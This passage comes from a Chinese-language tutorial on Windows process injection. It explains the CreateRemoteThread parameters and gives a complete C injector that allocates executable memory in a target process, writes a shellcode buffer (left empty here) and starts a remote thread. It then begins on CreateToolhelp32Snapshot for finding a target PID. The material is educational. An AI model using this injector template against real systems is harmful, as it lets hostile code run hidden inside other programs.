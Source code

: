 -   hProcess：将在其中创建线程的进程的句柄
-   lpThreadAttributes：一个指向 [**SECURITY\_ATTRIBUTES**](https://baike.baidu.com/item/SECURITY_ATTRIBUTES) 结构的指针，该结构指定了线程的安全属性。
-   dwStackSize：[线程](https://baike.baidu.com/item/%E7%BA%BF%E7%A8%8B/103101)栈初始大小，以字节为单位，如果该值设为 0，那么使用系统默认大小。
-   lpStartAddress：在远程进程的[地址空间](https://baike.baidu.com/item/%E5%9C%B0%E5%9D%80%E7%A9%BA%E9%97%B4/1423980)中，该线程的线程函数的起始地址。
-   lpParameter：指向要传递给线程函数的变量的指针。
-   dwCreationFlags：线程的创建标志。
-   lpThreadId：指向所创建线程 ID 的指针，如果该参数为空，则不返回线程标识符

```php
remoteThread = CreateRemoteThread(processHandle, NULL, 0,
(LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
```

**接下来是完整的代码**

```php
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = {};

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    printf("Injecting to PID: %i", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
  //打开进程
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode,
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  //申请内存
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
  //写入内存
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, 
  (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
  //创建远程线程
    CloseHandle(processHandle);
    return 0;
}
```

**看到这里相信各位也想到了一个问题，如果我想要远程注入 notepad，如何获取到他的 PID 呢？**

**那就得使用到我们之前所说的 CreateToolhelp32Snapshot**

**我们接着学习三个 windowsAPI**

**1、CreateToolhelp32Snapshot：可以获取系统中正在运行的进程信息，线程信息**

```php
HANDLE CreateToolhelp32Snapshot(
  [in] DWORD dwFlags,
  [in] DWORD th32ProcessID
);
```
